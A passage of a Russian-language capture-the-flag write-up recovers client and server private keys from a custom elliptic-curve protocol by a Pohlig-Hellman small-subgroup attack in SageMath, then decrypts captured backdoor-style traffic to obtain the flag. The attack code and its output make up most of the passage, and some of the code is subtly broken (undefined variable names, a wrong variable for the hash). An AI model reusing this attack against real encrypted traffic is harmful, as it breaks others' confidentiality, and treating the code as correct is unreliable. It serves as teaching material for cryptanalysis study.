Так как длина закрытого ключа составляет 128 бит, а решение для произведений простых делителей и их порядок длину 112 бит. Cледовательно для полного восстановления ключа необходимо перебрать все возможные значения $k$, то есть:
$$
k = 0, 1, \dots,\frac{2^{128} - 2^{112}}{2^{112}} = 0, 1, \dots,65535
$$

Для проверки правильности найденного закрытого ключа $d$ следует вычислять соответствующую точку на кривой $Q'$ и сравнивать её с известным открытым ключом $Q$:
$$
Q' = d \cdot G = \left(d_{\text{small}} + k \prod_{i=1}^{7} p_i^{e_i}\right) \cdot G
$$

### Осуществление атаки
С целью осуществления атаки вернемся к трафику в котором передаются координаты открытых ключей клиента $x_{\text{cli}}$, $y_{\text{cli}}$ (пакеты № 4, 6) и сервера $x_{\text{serv}}$, $y_{\text{serv}}$ (пакеты № 8, 10). 
<figure style="text-align: center;">
	
	<figcaption>Обмен открытыми ключами между сервером и клиентом</figcaption>
</figure>

Стоит отметить, что в пакете № 10 помимо координаты передается еще строка **verify**, выполняющая роль проверки успешного установления шифрованного канала связи.

Перед реализацией атаки в **SageMath** необходимо установить дополнительные библиотеки для анализа сетевого трафика и работы с криптографическими функциями:
```bash
sage -pip install scapy
sage -pip install pycryptodome
```

#### Извлечение и дешифровка координат точек
Перейдем к извлечению зашифрованных координат точек на эллиптической кривой и расшифруем их с использованием операции **XOR**:
```python
from sage.all import *
from sage.groups.generic import discrete_log
from scapy.layers.inet import IP, TCP
from scapy.packet import Raw
from scapy.utils import rdpcap
from Crypto.Cipher import ChaCha20
import hashlib
import base64

pcap = rdpcap("capture.pcapng")
raw_data_client = b''
raw_data_server = b''
raw_data_all = b''

client_ip = "192.168.56.101"
server_ip = "192.168.56.103"
client_port = 49848
server_port = 31337

for pkt in pcap:
    if IP in pkt and TCP in pkt:
        ip_layer = pkt[IP]
        tcp_layer = pkt[TCP]

        # Разделение трафика на трафик от клиента и сервера
        if ((ip_layer.src == client_ip and ip_layer.dst == server_ip and tcp_layer.sport == client_port and tcp_layer.dport == server_port)):
            if Raw in pkt:
                raw_data_client += pkt[Raw].load

        if (ip_layer.dst == client_ip and ip_layer.src == server_ip and tcp_layer.dport == client_port and tcp_layer.sport == server_port):
            # извлекаем полезные данные, если есть
            if Raw in pkt:
                raw_data_server += pkt[Raw].load

        # Единый трафик для расшифровки
        if Raw in pkt:
            raw_data_all += pkt[Raw].load

xor_key = 0x133713371337133713371337133713371337133713371337133713371337133713371337133713371337133713371337

client_x_enc = int.from_bytes(raw_data_client[0:48], byteorder='big')
client_y_enc = int.from_bytes(raw_data_client[48:96], byteorder='big')
client_x = client_x_enc ^ xor_key
client_y = client_y_enc ^ xor_key

print("Client coordinates")
print("X_enc\t",hex(client_x_xor))
print("Y_enc\t",hex(client_y_xor))
print("X\t",hex(client_x))
print("Y\t",hex(client_y))


server_x_enc = int.from_bytes(raw_data_server[0:48], byteorder='big')
server_y_enc = int.from_bytes(raw_data_server[48:96], byteorder='big')
server_x = server_x_enc ^ xor_key
server_y = server_y_enc ^ xor_key

print("")
print("Server coordinates")
print("X_enc\t",hex(server_x_xor))
print("Y_enc\t",hex(server_y_xor))
print("X\t",hex(server_x))
print("Y\t",hex(server_y))
```

Выведем получившиеся координаты:
```
Client coordinates
X_enc	 0xa6c559073da49754e9ad9846a72954745e4f2921213eccda4b1422e2fdd646fc7e28389c7c2e51a591e0147e2ebe7ae
Y_enc	 0x264022daf8c7676a1b2720917b82999d42cd1878d31bc57b6db17b9705c7ff2404cbbf13cbdb8c096621634045293922
X	 0x195b46a760ed5a425dadcab37945867056d3e1a50124fffab78651193cea7758d4d590bed4f5f62d4a291270f1dcf499
Y	 0x357731edebf0745d081033a668b58aaa51fa0b4fc02cd64c7e8668a016f0ec1317fcac24d8ec9f3e75167077561e2a15

Server coordinates
X_enc	 0xa0d2eba817e38b03cd063227bd32e353880818893ab02378d7db3c71c5c725c6bba0934b5d5e2d3ca6fa89ffbb374c31
Y_enc	 0x96a35eaf2a5e0b430021de361aa58f8015981ffd0d9824b50af23b5ccf16fa4e323483602d0754534d2e7a8aaf8174dc
X	 0xb3e5f89f04d49834de312110ae05f0649b3f0bbe2987304fc4ec2f46d6f036f1a897807c4e693e0bb5cd9ac8a8005f06
Y	 0x85944d98396918741316cd0109929cb706af0cca1eaf378219c5286bdc21e979210390573e3047645e1969bdbcb667eb
```

#### Параметры эллиптической кривой и вычисление дискретных логарифмов
Помимо задания параметров эллиптической кривой, перейдем к непосредственному вычислению дискретного логарифма для закрытого ключа клиента (**d_cli_i**) и сервера (**d_ser_i**) в каждой подгруппе, а также к решению системы сравнений с помощью китайской теоремы об остатках:
```python
prime_field_modulus_q = 0xc90102faa48f18b5eac1f76bb40a1b9fb0d841712bbe3e5576a7a56976c2baeca47809765283aa078583e1e65172a3fd

curve_param_A = 0xa079db08ea2470350c182487b50f7707dd46a58a1d160ff79297dcc9bfad6cfc96a81c4a97564118a40331fe0fc1327f
curve_param_B = 0x9f939c02a7bd7fc263a4cce416f4c575f28d0c1315c4f0c282fca6709a5f9f7f9c251c9eede9eb1baa31602167fa5380

G_x = 0x087b5fe3ae6dcfb0e074b40f6208c8f6de4f4f0679d6933796d3b9bd659704fb85452f041fff14cf0e9aa7e45544f9d8
G_y = 0x127425c1d330ed537663e87459eaa1b1b53edfe305f6a79b184b3180033aab190eb9aa003e02e9dbf6d593c5e3b08182

# Создание конечного поля и эллиптической кривой
F = GF(prime_field_modulus_q)
E = EllipticCurve(F, [curve_param_A, curve_param_B])

# Создание базовой точки генератора
G = E.point((G_x, G_y))

order = G.order()
factors = order.factor()

print("")
factor_str = "n = " + " * ".join([f"{p}^{e}" for p, e in factors])
print(factor_str)
print("")

Q_cli = E.point((client_x, client_y))
Q_ser = E.point((server_x, server_y))
d_cli_i_mass = []
d_ser_i_mass = []
moduli_list  = []

for p, e in factors[:-1]:
    _factor = p ** e
    n_i = order//_factor
    G_i = G*n_i
    Q_cli_i = Q_cli*n_i
    Q_ser_i = Q_ser*n_i

    d_cli_i = discrete_log(Q_cli_i, G_i, operation='+', ord=_factor) # +
    d_ser_i = discrete_log(Q_ser_i, G_i, operation='+', ord=_factor) # +
    #d_cli_i = discrete_log_lambda(Q_cli_i, G_i, (0,_factor), '+') # +
    #d_i = G_i.discrete_log(Q_i) # +-
    moduli_list .append(_factor)
    d_cli_i_mass.append(d_cli_i)
    d_ser_i_mass.append(d_ser_i)
    print(f"Finished processing p^e = {p}^{e}")

d_cli_small = int(crt(d_cli_i_mass, moduli_list ))
d_ser_small = int(crt(d_ser_i_mass, moduli_list ))
print(f"Computed d_cli_small {d_cli_small}")
print(f"Computed d_ser_small {d_ser_small}")
```

В результате мы получим закрытые ключи клиента **d_cli_small** и сервера **d_ser_small** в подгруппе порядка $\prod_{i=1}^{7} p_i^{e_i}$:
```
Computed d_cli_small 3914004671535485983675163411331184
Computed d_ser_small 1347455424744677257745571369218247
```

#### Перебор индекса $k$ и восстановление ключей
Заключительным этапом осуществим перебор индекса $k$ для нахождения закрытых ключей по формуле общего решения:
```python
found_client_key = False
found_server_key = False
p_1_7 = Factorization(factors[:-1]).value()
for k in range(1, 2**16):
    if not found_client_key:
        d_cli = d_cli_small + k * p_1_7
        if Q_cli == d_cli * G:
            print(f"Found client secret key {d_cli}")
            print(f"Iteration {k}")
            found_client_key = True

    if not found_server_key:
        d_ser = d_ser_small + k * p_1_7
        if Q_ser == d_ser * G:
            print(f"Found server secret key {d_ser}")
            print(f"Iteration {k}")
            found_server_key = True

    if found_client_key and found_server_key:
        break
```

В результате будут получены следующие ключи:
```
Found server secret key 153712271226962757897869155910488792420
Iteration 35137
Found client secret key 168606034648973740214207039875253762473
Iteration 38541
```

#### Расшифровка трафика
Получим общий секрет ($S = d_{\text{cli}} \cdot d_{\text{serv}} \cdot G$) и расшифруем потоковый шифр между клиентом и сервером:
```python
S = d_cli * d_ser * G
S_x = S[0]
print(f"Shared secret x coordinate {hex(S_x)}")

shared_secret_hash = hashlib.sha512(int(S_x).to_bytes(48, 'big')).digest()
print(f"Hash {shared_secret_hash.hex()}")

key = hash[:32]
print(f"Key {key.hex()}")

iv = hash[32:40]
print(f"IV {iv.hex()}")

cipher = ChaCha20.new(key=key, nonce=iv)
decrypt_text = cipher.decrypt(raw_data_all[192:])
print(decrypt_text)

lines_decrypt_text = decrypt_text.decode().split('\x00')
flag_text = base64.b64decode(lines_decrypt_text[-3])
print(flag_text)
```

В результате мы получим информацию об используемых ключах шифрования, расшифруем данные и, как следствие, извлечём флаг, требуемый для выполнения задания:
```
Shared secret x coordinate 0x3c54f90f4d2cc9c0b62df2866c2b4f0c5afae8136d2a1e76d2694999624325f5609c50b4677efa21a37664b50cec92c0
Hash b48f8fa4c856d496acdecd16d9c94cc6b01aa1c0065b023be97afdd12156f3dc3fd480978485d8183c090203b6d384c20e853e1f20f88d1c5e0f86f16e6ca5b2
Key b48f8fa4c856d496acdecd16d9c94cc6b01aa1c0065b023be97afdd12156f3dc
IV 3fd480978485d818
b"verify\x00verify\x00ls\x00=== dirs ===\r\nsecrets\r\n=== files ===\r\nfullspeed.exe\r\n\x00cd|secrets\x00ok\x00ls\x00=== dirs ===\r\nsuper secrets\r\n=== files ===\r\n\x00cd|super secrets\x00ok\x00ls\x00=== dirs ===\r\n.hidden\r\n=== files ===\r\n\x00cd|.hidden\x00ok\x00ls\x00=== dirs ===\r\nwait, dot folders aren't hidden on windows\r\n=== files ===\r\n\x00cd|wait, dot folders aren't hidden on windows\x00ok\x00ls\x00=== dirs ===\r\n=== files ===\r\nflag.txt\r\n\x00cat|flag.txt\x00RDBudF9VNWVfeTB1cl9Pd25fQ3VSdjNzQGZsYXJlLW9uLmNvbQ==\x00exit\x00"
b'D0nt_U5e_y0ur_Own_CuRv3s@flare-on.com'
```

#### Альтернативный метод (по наибольшему сомножителю)
Помимо классического подхода с вычислением закрытого ключа в каждой подгруппе с последующим восстановлением значения по китайской теореме об остатках, возможен альтернативный способ – переход напрямую к малой подгруппе порядка $\prod_{i=1}^{7} p_i^{e_i}$.
Это достигается путём умножения точки $Q$ и генератора $G$ на наибольший простой делитель порядка группы. В результате компоненты по всем остальным подгруппам обнуляются, и остаётся проекция точки на единственную малую подгруппу. Таким образом, задача сводится к вычислению дискретного логарифма уже в этой подгруппе:
$$
d_{\text{small}} = \log_{G_{\text{small}}} Q_{\text{small}}
$$

Где:
+ $G_{\text{small}} = \frac{n}{\prod_{i=1}^{7} p_i^{e_i}} \cdot G = p_7^{e_7} \cdot G$ – проекция генератора на малую подгруппу.
+ $Q_{\text{small}} = \frac{n}{\prod_{i=1}^{7} p_i^{e_i}} \cdot Q = p_7^{e_7} \cdot Q$ – проекция открытого ключа на малую подгруппу.

Эта техника эффективна, если порядок группы содержит один крупный сомножитель, а все остальные – достаточно малы, чтобы затем перебором найти полный ключ:
$$
d = d_{\text{small}} + k \prod_{i=1}^{7} p_i^{e_i}, \quad \text{где } k = 0, 1, \dots, \left\lfloor \frac{d - d_{\text{small}}}{\prod_{i=1}^{7} p_i^{e_i}} \right\rfloor
$$

Приведем пример реализации данного метода:
```python
p_7 = Factorization(factors[-1:]).value()
d_cli_small = (G*p_7).discrete_log(Q_cli*p_7)
d_ser_small = (G*p_7).discrete_log(Q_ser*p_7)
print(f"Computed d_cli_small {d_cli_small}")
print(f"Computed d_ser_small {d_ser_small}")

found_client_key = False
found_server_key = False
p_1_7 = Factorization(factors[:-1]).value()
for k in range(1, 2**16):
    if not found_client_key:
        d_cli = d_cli_small + k * p_1_7
        if Q_cli == d_cli * G:
            print(f"Found client secret key {d_cli}")
            print(f"Iteration {k}")
            found_client_key = True

    if not found_server_key:
        d_ser = d_ser_small + k * p_1_7
        if Q_ser == d_ser * G:
            print(f"Found server secret key {d_ser}")
            print(f"Iteration {k}")
            found_server_key = True

    if found_client_key and found_server_key:
        break
```

В результате будут получены те же самые закрытые ключи клиента и сервера, что и при использовании предыдущего подхода.

# Заключение
В ходе выполнения задания был проведён комплексный анализ протокола передачи данных, реализованного в приложении **fullspeed.exe**, написанном на языке **C#** и скомпилированном в машинный код с использованием технологии **.NET Native AOT** для платформы **win-x86**.
Особенности **AOT-компиляции** затруднили классический анализ **.NET-приложений**, поэтому для удобства реверс-инжиниринга были сгенерированы **FLIRT-сигнатуры**, позволившие восстановить структуру и логику исполняемого файла [**fullspeed.exe**](https://github.com/maxgpt03/flareon/blob/main/2024/task7/src/client/main_client.cs).
Протокол передачи данных использует эллиптическую криптографию с нестандартизированными параметрами, генерация закрытых ключей производится с использованием малых значений по сравнению с порядком базовой точки эллиптической кривой. Эти особенности создают предпосылки для проведения криптографической атаки, в частности, перебора в малой подгруппе. В результате была успешно проведена атака типа Полига-Хеллмана на используемую эллиптическую кривую с применением системы компьютерной алгебры **SageMath**, что позволило восстановить приватные ключи клиента и сервера.
На основании полученных ключей расшифрованы передаваемые данные, извлечённые из сетевого дампа **capture.pcapng**, что подтвердило успешность проведённого криптоанализа.
Дополнительно была частично реконструирована логика исполняемого файла, что позволило глубже понять работу приложения и подтвердить сделанные выводы.